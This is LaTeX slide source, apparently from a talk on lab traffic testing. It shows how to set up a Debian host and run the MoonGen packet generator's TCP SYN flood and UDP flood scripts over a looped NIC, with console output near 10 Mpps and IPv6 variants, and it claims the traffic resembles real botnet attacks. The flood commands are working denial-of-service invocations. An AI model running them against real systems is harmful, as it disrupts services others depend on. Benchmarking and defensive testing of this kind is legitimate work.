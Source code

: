 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list2}
\item Installing Debian Linux went \emph{okay} -- little bit of disable secure boot, RAID/AHCI settings, ...
\item After install -- tuning and enabling Hugepages
\item Then adding a cable between the two ports on a dual card
\item Clone the repository  build and run
\item {\bf Note: the full 14.8Mpps is done using a single core!}
\end{list2}


\begin{alltt}\footnotesize
root@penguin01:~/projects/MoonGen# ./build/MoonGen ./examples/l3-tcp-syn-flood.lua 0 -r 5000 -d 192.0.2.138
[INFO]  Initializing DPDK. This will take a few seconds...
EAL: Detected 16 lcore(s)
[INFO]  Found 1 usable devices:
   Device 0: 00:25:90:32:9F:F3 (Intel Corporation 82599ES 10-Gigabit SFI/SFP+ Network Connection)
PMD: ixgbe_dev_link_status_print():  Port 0: Link Down
[INFO]  Device 0 (00:25:90:32:9F:F3) is up: 10000 MBit/s
[INFO]  Detected an IPv4 address.

[Device: id=0] TX: 9.77 Mpps, 5000 Mbit/s (6562 Mbit/s with framing)
[Device: id=0] TX: 9.68 Mpps, 4955 Mbit/s (6504 Mbit/s with framing)
[Device: id=0] TX: 9.77 Mpps, 5000 Mbit/s (6562 Mbit/s with framing)
[Device: id=0] TX: 9.77 Mpps, 5000 Mbit/s (6562 Mbit/s with framing)
\end{alltt}

IPv6 and UDP, replace tcp with udp in example:
\begin{alltt}\footnotesize
./build/MoonGen ./examples/l3-tcp-syn-flood.lua 0 -r 5000 -d 2001:DB8:ABCD:0053::138 -i 2001:DB8:ABCD:0053::1

./build/MoonGen ./examples/l3-udp-flood-hlk.lua 0 -r 5000 -d 2001:DB8:ABCD:0053::138 -i 2001:DB8:ABCD:0053::1
\end{alltt}



Tools are simple and widely available but are they actually producing same result as high-powered and advanced criminal botnets. We can confirm that the attack delivered in this test is, in fact, producing the traffic patterns very close to criminal attacks in real-life scenarios.
\end{document}
